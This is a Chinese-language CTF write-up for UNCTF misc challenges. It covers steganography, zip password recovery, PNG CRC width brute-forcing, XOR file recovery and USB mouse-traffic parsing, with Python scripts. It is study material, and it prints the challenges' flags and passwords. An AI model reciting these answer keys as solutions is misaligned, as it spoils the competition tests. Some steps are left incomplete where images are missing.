解压之后，获得了几个目录,我们可以看见一个 `fontTable.xml`,这个和我们刚刚看见的关键字很像，很有可能flag就藏在里面



打开之后，搜索 `flag` 成功获得 `flag`


或者直接使用以下shell命令来进行查找flag，也是可以获得flag

```bash
find . | xargs cat | grep -nse flag
```

### syslog

下载附件之后，发现里面有一个压缩包，但是解压需要密码

我们先使用 `binwalk` 看看这个文件里会不会藏了别的东西


果不其然，里面藏了一个 `syslog` 文件，分离出来之后我们查看一下这个文件，发现是字符文件。


我们使用 vim 打开之后发现这个文件是 ubuntu 的日志文件


我们先查找一下 flag 看这个文件里是否存在 flag

发现了 `flag is not here` 但并没有获得我们想要的 flag


<div style="border-radius:15px;display:block;background-color:#a8dadc;border:2px solid #aaa;margin:15px;padding:10px;">
我在这里卡了一段时间，直到我再一次查看当前目录，发现存在 <code>flag.zip</code> 并且这个压缩包还被加密了,那肯定 flag 在这个压缩包内，那 <code>syslog</code> 肯定就是一些提示信息，或者压缩包密码.
</div>


我们使用以下命令去查找密码,发现成功获得一段 base64

```bash
cat ./syslog | grep -inse 'pass'
```


我们使用 `cyber chief` 对这一段 base64 进行解码

成功获得密码 `U6nu2_i3_b3St`


我们使用这个密码对压缩包进行解压缩或获得 flag.txt

成功获得 flag


```
UNCTF{N1_sH3_D0n9_L0g_dE!}
```

### 社什么社

我们下载这个附件,解压之后得到一个文本文件。

我们打开这个文件，发现全部都是 # 和下划线。


我们知道这个题目的描述是叫我们找景点


我们可以先将这个文件缩小一下，发现是类似一张图片。

<font color="red">这张图片着实把我眼睛给看瞎了.</font>

<div align="center">

</div>

> 最后发现好多人写出这道题目，我就想这个地点会不会和出题人的地方一样

然后我就去网上查了一下,发现好像只有凤凰古城最像这张图片。


然后我们对其进行一下 md5 加密，然后转换成大写


### In_the_Morse_Garden


发现只有一个 pdf 文件，我们打开这个 pdf 文件发现只有一张图片，而且这个图片是个超链接,链接到了 `cyber chef`


<div style="border-radius:15px;display:block;background-color:pink;border:2px solid #aaa;margin:15px;padding:10px;">
然后我使用 foremost 对其进行分离，看看是不是信息隐藏在图片里面,后面就是图片隐写的一系列骚操作，尝试完所有已知的方式后，仍然一无所获.
</div>

+ 后面我就想会不会 pdf 里面隐写了文本信息
	+ 所以我就使用 Okular (linux) 将 pdf 导出成 plaintext (文本形式)
	+ 如果在windows下可以使用office，wps导出成word文档应该也行 (这边没有进行尝试)


```
UNCTF{5L6d5Y+k5q+U5Y+k546b5Y2h5be05Y2h546b5Y2h5be05Y2hIOS+neWPpOavlOWPpOeOm+WNoeW3tOWNoSDnjpvljaHlt7TljaHkvp3lj6Tmr5Tlj6Qg5L6d5Y+k5q+U5Y+k5L6d5Y+k5q+U5Y+k546b5Y2h5be05Y2h546b5Y2h5be05Y2h5L6d5Y+k5q+U5Y+k546b5Y2h5be05Y2hIOS+neWPpOavlOWPpOeOm+WNoeW3tOWNoSDnjpvljaHlt7TljaHkvp3lj6Tmr5Tlj6Qg5L6d5Y+k5q+U5Y+k5L6d5Y+k5q+U5Y+k546b5Y2h5be05Y2h546b5Y2h5be05Y2h5L6d5Y+k5q+U5Y+k546b5Y2h5be05Y2hIOeOm+WNoeW3tOWNoeeOm+WNoeW3tOWNoSDkvp3lj6Tmr5Tlj6TnjpvljaHlt7TljaEg546b5Y2h5be05Y2h5L6d5Y+k5q+U5Y+k546b5Y2h5be05Y2hIOS+neWPpOavlOWPpOeOm+WNoeW3tOWNoSDkvp3lj6Tmr5Tlj6Tkvp3lj6Tmr5Tlj6TnjpvljaHlt7TljaHnjpvljaHlt7TljaHkvp3lj6Tmr5Tlj6TnjpvljaHlt7TljaEg546b5Y2h5be05Y2h5L6d5Y+k5q+U5Y+k5L6d5Y+k5q+U5Y+k5L6d5Y+k5q+U5Y+kIOS+neWPpOavlOWPpOeOm+WNoeW3tOWNoSDnjpvljaHlt7TljaHkvp3lj6Tmr5Tlj6TnjpvljaHlt7TljaEg5L6d5Y+k5q+U5Y+k546b5Y2h5be05Y2hIOS+neWPpOavlOWPpOeOm+WNoeW3tOWNoSDkvp3lj6Tmr5Tlj6TnjpvljaHlt7TljaEg5L6d5Y+k5q+U5Y+k546b5Y2h5be05Y2hIOS+neWPpOavlOWPpOeOm+WNoeW3tOWNoSDnjpvljaHlt7TljaHkvp3lj6Tmr5Tlj6TnjpvljaHlt7TljaHkvp3lj6Tmr5Tlj6TnjpvljaHlt7TljaHnjpvljaHlt7TljaE=}
```


```
依古比古玛卡巴卡玛卡巴卡 依古比古玛卡巴卡 玛卡巴卡依古比古 依古比古依古比古玛卡巴卡玛卡巴卡依古比古玛卡巴卡 依古比古玛卡巴卡 玛卡巴卡依古比古 依古比古依古比古玛卡巴卡玛卡巴卡依古比古玛卡巴卡 玛卡巴卡玛卡巴卡 依古比古玛卡巴卡 玛卡巴卡依古比古玛卡巴卡 依古比古玛卡巴卡 依古比古依古比古玛卡巴卡玛卡巴卡依古比古玛卡巴卡 玛卡巴卡依古比古依古比古依古比古 依古比古玛卡巴卡 玛卡巴卡依古比古玛卡巴卡 依古比古玛卡巴卡 依古比古玛卡巴卡 依古比古玛卡巴卡 依古比古玛卡巴卡 依古比古玛卡巴卡 玛卡巴卡依古比古玛卡巴卡依古比古玛卡巴卡玛卡巴卡
```

解码出来都是 依古比古玛卡巴卡 这些都是花园宝宝里面的人物,我们又知道题目的名称为 `In_the_Morse_Garden` Garden 应该就是花园宝宝的花园,那么前面的摩斯应该就是摩斯密码了。

而这个密文只有 依古比古,玛卡巴卡,刚好对应摩斯密码的 `. 和 _` 所以我们尝试一下将 依古比古 玛卡巴卡 替换成 `. _` 得到摩斯电码，然后尝试解码

```
.__ ._ _. ..__._ ._ _. ..__._ __ ._ _._ ._ ..__._ _... ._ _._ ._ ._ ._ ._ ._ _._.__
```

解码出来为 晚安玛卡巴卡,为有意义的字符组合，那么这个应该就是 flag 了
提交之后，发现为正确的 flag


```
UNCTF{WAN_AN_MAKA_BAKAAAAA!}
```


### 巨鱼


下载附件之后，解压成功后获得一张图片 `fish.png` 打开发现打开不了，这边怀疑是改了宽高导致 crc 错误

> 我们知道在 linux 系统内宽高被修改 (crc 错误) 图片将打不开

所以我首先想到的就是该文件的宽高有问题

我使用 `pngcheck` 查看一下该文件的crc值,发现真的错误


我们可以编写以下代码来爆破该图片的宽高

```python
#coding=utf-8
import sys
import zlib
import os
import struct
import codecs

DEFAULT_TEMP_FILE_NAME = "output.png"


def gain_utils(file_name):
    with open(file_name, "rb") as reader:
        data = bytearray(reader.read())
    IHDR_ChunkData = data[12:29]
    new_crc = hex(zlib.crc32(IHDR_ChunkData))
    crc32key = codecs.encode(data[29:33], "hex").decode("ascii")
    crack_info = (IHDR_ChunkData, "0x" + crc32key)
    return crack_info, new_crc


def crack(IHDR_ChunkData, crc32key):
    try_data = IHDR_ChunkData
    max_num = 0xfff 
    for width in range(max_num): 
        width_data = bytearray(struct.pack('>i', width)) 
        for height in range(max_num):
            height_data = bytearray(struct.pack('>i', height))
            try_data[4:8] = width_data
            try_data[8:12] = height_data
            crc32result = zlib.crc32(try_data)
            if crc32result == int(crc32key, 16):
                c_width = codecs.encode(width_data, "hex").decode("ascii")
                c_height = codecs.encode(height_data, "hex").decode("ascii")
                print("\33[34m" + "[+] Currect Width: {} Height: {}".format(
                    c_width, c_height) + "\33[0m")
                return width_data, height_data


def fix_file(file_name, cwidth, cheight):
    with open(file_name, "rb") as reader:
        data = bytearray(reader.read())
    data[16:20] = cwidth
    data[20:24] = cheight
    if os.path.exists(DEFAULT_TEMP_FILE_NAME):
        print("\33[33m" +
              "[!] This path exists {}".format(DEFAULT_TEMP_FILE_NAME) +
              "\33[0m")
        exit(1)
    with open(DEFAULT_TEMP_FILE_NAME, "wb") as writer:
        writer.write(data)


def change_path():
    global DEFAULT_TEMP_FILE_NAME
    export_filename = sys.argv[2]
    DEFAULT_TEMP_FILE_NAME = export_filename
    return None


if __name__ == '__main__':
    argc = len(sys.argv)
    assert (argc <= 3)
    file = sys.argv[1]
    if (argc == 3):
        change_path()
    crack_info, new_crc = gain_utils(file)
    meta_info = crack(*crack_info)
    if meta_info == None:
        print("\33[31m" + "Crack Width and Height failed!" + "\33[0m")
        exit(1)
    fix_file(file, *meta_info)
    print("\33[32m" +
          "[*] The correct image ({}) was successfully exported".format(
              DEFAULT_TEMP_FILE_NAME) + "\33[0m")

```

我已经将这个文件上传到 github 上了:[pngcrc.py](https://github.com/zhouhaobusy/utils/blob/main/dotfiles/pngcrc.py)







### zhiyin





我们发现 `lanqiu.jpg` 这个文件显示不了,还有一个图片 ( `zhiyin.png` ) 能进行查看

我们先对能查看的图片进行分析,

我们使用 `zsteg` 来分析一下 `zhiyin.png` 这张图片。


发现在文件尾存在摩斯密码,进行解码之后成功获得一段字符串,这段字符串以 `_` 开头说明很有可能只是结果的一部分

所以我们再分析另外一张图片。

图片显示不出，我们先使用 file 查看一下这个文件是什么东西，发现与我所想象的不太一样，它仅仅只是 data

然后我们使用 `010editor` 打开这个文件，看看到底里面存了啥。

当我们移到这个文件的最后，发现好像这个文件就是被倒转了一下，我们可以编写以下 python 脚本进行逆转回去。

```python
import os

def reverse_file(path):
    with open(path, "rb") as stream:
        temp = bytes(stream.read())[::-1]
    with open(path + "__", "wb") as container:
        container.write(temp)

if __name__ == '__main__':
    reverse_file("./lanqiu.jpg")

```
打开这个图片，发现图片上存在一段字符，我们可以大胆猜测一下这个就是我们要找的前一段。

> 这里有一个小坑: 图片内的字符是 `Go_p1ay` 而不是 `Go_play` 请注意看 


这边我直接尝试了一下将这个字符串包裹起来当flag交了上去，发现没交上，后面认真看了一下目录，发现还有一个 flag.zip 这时候我就知道,这一串东西可能是这个压缩包的密码。

我们尝试进行解压。

发现其报错了，我们常规操作，去查看一下这个zip压缩包的二进制格式

发现其文件头错误,尝试进行修复,修复完成之后，能成功解析该 zip 压缩包了。

然后我们使用刚刚获得的密码去解压这个压缩包 `Go_p1ay_UNC7F!!!` 恭喜你，你将解压失败 :)

> 这里有一个坑: ( 永远不要忘了摩斯密码是没有大小写之分的,忘了的话迟早有一天它会害了你。)

所以正确的密码为 `Go_p1ay_unc7f!!!`


```
UNCTF{M1sic_1s_greAt}
```


### 清和fan


下载之后获得一个压缩包

<div style="border-radius:15px;display:block;background-color:#a8dadc;border:2px solid #aaa;margin:15px;padding:10px;">
如果是 Linux (并不用图形化) 这里将有一个大坑!!!
<br> <font color="red"> 就是我们使用 <code>zipinfo -v file_name </code>这个命令很有可能不能正常显示中文注释. </font>
</div>

因为上面那个坑，而我当时并不知道zipinfo 存在这个问题，在这里卡了好久，都没啥思路.😅

后面使用 bandizip 这个软件打开这个压缩包才发现下面这段注释信息


根据这段信息我们就去B站,查找清和这个up主 的 `uid` 和最高播放量视频的发布日期

获得密码: `836885_2022/05/20`


解压之后
获得一张图片


我使用 `zsteg` 成功找到里面隐藏的信息 `qq857488580`


我们再使用第二步解密出来的密码进行解密发现成功获得flag

我们可以安装 `RX-SSTV` 来解析

如果我们不想听到声音的话我们可以安装一个虚拟声卡 这边使用 `Virtual Audio Cable`

发现获得一张图片,里面存在一个比较明显的字符串,我们使用这个字符串对里面的压缩包进行解压缩，发现成功解压


解压之后得到一个文本文件,打开之后，发现进行了零宽隐写


我们对其进行零宽解码,成功获得 flag


`unctf{wha1e_wants_a_girlfriend_like_alicia}`

---

上面是比赛时，自己使用的方式，比赛完后，看别的师傅的wp之后，发现还有更好的工具

[sstv-github](https://github.com/colaclanth/sstv)

使用方式: `python setup.py install`

然后再使用 `sstv -d 神秘电报.wav -o flag.png`


然后我们查看该图片发现同样能获得图像


### 剥茧抽丝

下载附件后获得一个压缩包

[aaa](http://330k.github.io/misc_tools/unicode_steganography.html)

发现有一段字符注释，一开始我还以为是掩码爆破。

没想到的是这玩意就是这个压缩包的密码


我们使用 `S?e?a?o?r?p?y` 成功对该压缩包进行解压。


解压之后，获得了一个 `1.txt` 我们使用 vim 打开该文件，发现存在零宽隐写，我们将其复制到零宽隐写的网站里进行解码。


<font color="red"> 这边需要注意的是一定要选择二进制文件解码，不然解码不出 </font>


解压之后，里面还存在一个需要密码的压缩包

而解码出来，我们获得一个很像密码的字符串: `PAsS_W0rD`,所以我们就使用这个字符串当做密码尝试解压第二层需要密码的压缩包

遗憾的是发现解压失败。

到这里，我就想能不能尝试已知明文攻击，因为我们已经获得了一个文件 `1.txt` 和一个 `flag.zip` 如果`flag.zip` 里面存在两个文件，并且一个文件是


然后进行已知明文攻击


成功获得 flag


### My Picture


下载附件，解压之后获得一个 `dat` 文件和一张贼杂乱的图片。

一开始我不知道啥是dat 文件，后面百度之后发现该文件是微信的一种文件格式 [dat 文件](https://www.cnblogs.com/4thrun/p/15148485.html)

<font color="red"> 就是将一个文件的每一位都与一个数进行异或之后进行存储的 </font>


而我们知道每个文件都有它的文件头标识，所以我们是不是可以通过遍历文件头，与dat中的每个字节进行异或，如果得到连续相等的常量，就说明该dat源文件就是这个格式的，并且我们还能获得它源文件与哪个数进行的异或操作.

编写爆破文件。

```python
# -*- coding: utf-8 -*-


def check_file(file_head, dat_file):
    """
    this function will check the file type 
    """
    with open(dat_file, 'rb') as reader:
        dat_hex = bytearray(reader.read())
    assert (len(dat_hex) >= 2)
    for i in range(len(file_head)):
        hex_list = file_head[i]['head'].split(' ')
        check_flag = set(
            [int(hex_list[i], 16) ^ dat_hex[i] for i in range(len(hex_list))])
        if len(check_flag) == 1:
            print(file_head[i]['name'])
            print("the xor seed is:", check_flag)
            # return (file_name xor_seed)
            return (file_head[i]['name'], check_flag.pop())
        else:
            print(f"not {file_head[i]['name']}")
            pass
    return ('', '')


def hack_dat(fin, fout, xor_seed):
    """
    use the xor_seed to recover the xor file
    """
    assert (isinstance(xor_seed, int))
    with open(fin, 'rb') as reader:
        fi_hex = bytearray(reader.read()) # dat_file hex list
    output_bytes = bytearray(map(lambda x: x ^ xor_seed, fi_hex))
    with open(fout, 'wb') as writer:
        writer.write(output_bytes)


if __name__ == "__main__":
    heads = [{
        "name": 'jpg',
        "head": 'FF D8 FF E0'
    }, {
        "name": 'jpeg',
        "head": 'FF D8 FF E1'
    }, {
        "name": 'Jpeg',
        "head": 'FF D8 FF E8'
    }, {
        "name": 'png',
        "head": 'FF D8 FF E8'
    }, {
        "name": 'bmp',
        "head": '42 4D 36 5D'
    }, {
        "name": 'gif',
        "head": '47 49 46 38'
    }, {
        "name": 'zip',
        "head": '50 4B 03 04'
    }, {
        "name": 'rar',
        "head": '52 61 72 21'
    }, {
        "name": 'mp3',
        "head": '49 44 33 03'
    }, {
        "name": 'wav',
        "head": '52 49 46 46'
    }]

    name, seed = check_file(heads, "./dat")
    print(name, seed)
    fout = 'output.' + name
    hack_dat('./dat', fout, seed)
```

上面是我采用的方式，不过还有一种更简单的方式，就是看什么 16 进制出现得最多，那么这个 16 进制字符很有可能是那个异或的值，因为 0 异或上任何值都为它本身,而在几乎所有文件格式，00 一般是存在最多的二进制内容。


运行完之后，发现源文件是一个 zip 文件,并使用这个数对其进行解密


解压这个zip 文件我们获得了一个 python 脚本文件,很显然这张图片就是经过这个脚本处理后的图像，所以我们要逆向这段处理图像的代码，然后还原出原本的图像，应该就能获得 flag 了

分析这个 python 脚本，我们编写其逆向代码

```python
#! /usr/bin/env python3
from PIL import Image as im

flag = im.open('flag.png', 'r')
l, h = flag.size
print(l, h)
puzzle = im.new('RGB', (h, l))

coord_info = [] # contain all pixel

for i in range(1200):
    cols = [] # contain every lines pixel info
    for j in range(787):
        x_coord = (i * 787 + j) // 1200
        y_coord = (i * 787 + j) % 1200
        cols.append([x_coord, y_coord])
    coord_info.append(cols)
assert (len(coord_info) == 1200)
assert (len(coord_info[0]) == 787)

for i in range(1200):
    for j in range(787):
        b, g, r = flag.getpixel((coord_info[i][j][0], coord_info[i][j][1]))
        r = r ^ g
        g = g ^ b
        b = b ^ r
        puzzle.putpixel((i, j), (r, g, b))
puzzle.save('flag.png')
flag.close()
puzzle.close()
```

运行完之后成功获得 flag


### CatchJerry


我们可以使用这个命令来获取 usb 内的信息


```bash
tshark -r usb.pcap -T fields -e usb.capdata | sed '/^\s*$/d' > usbdata.txt
```
```bash
tshark -r ./CatchJerry.pcapng -Y "usbhid.data" -T fields -e usbhid.data > mouse.txt
```


```python
with open("mouse.txt", "r") as f:
    keys = f.read().splitlines()

with open("LEFT.txt", "w") as left, open("RIGHT.txt", "w") as right, open("ALL.txt", "w") as all:
    posx, posy = 0, 0
    for line in keys:
        x = int(line[2:4], 16)
        y = int(line[5:7], 16)
        if x > 127:
            x -= 256
        if y > 115:
            y -= 256
        posx += x
        posy += y
        # 1 for left , 2 for right , 0 for nothing
        btn_flag = int(line[:2], 16)
        if btn_flag == 1:  # 1 代表左键，2代表右键
            left.write(f'{posx} {str(-posy)}' + '\n')
        elif btn_flag == 2:
            right.write(f'{posx} {str(-posy)}' + '\n')

        all.write(f'{posx} {str(-posy)}' + '\n')
```


`UNCTF{TOM_AND_JERRY_BEST_FRIENDS}`

### 芝麻开门

https://github.com/livz/cloacked-pixel
https://github.com/RobinDavid/LSB-Steganography.git

[](https://3gstudent.github.io/隐写技巧-PNG文件中的LSB隐写)

### 贝斯家族的侵略

[Base64 隐写](https://www.tr0y.wang/2017/06/14/Base64steg/)


```python
def int2Bin(digit):
    return bin(digit)[2:] # 将索引转成二进制，去掉'0b';


def binAsc(string): # 二进制转成ASCII码
    temp = ''
    for i in range(int(len(string) / 8)):
        temp += chr(int(string[i * 8:i * 8 + 8], 2))
    return temp


def readBase64FromFile(filename):
    Base64Char = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/" #Base64字符集 已按照规范排列
    result = ''
    with open(filename, 'r') as f:
        for data in f.readlines():
            if data.find('==') > 0:
                result += int2Bin(Base64Char.index(
                    data[-4]))[-4:] # 根据隐写原理，‘==’情况取等号前最后一个字符转换后取后4位
            elif data.find('=') > 0:
                result += int2Bin(Base64Char.index(
                    data[-3]))[-2:] # 根据隐写原理，‘=’情况取等号前最后一个字符转换后取后2位
    print(binAsc(result))

readBase64FromFile('flag')
```

## 我小心海也绝非鳝类


[随波逐流](http://1o1o.xyz/bo_ctfcode.html)








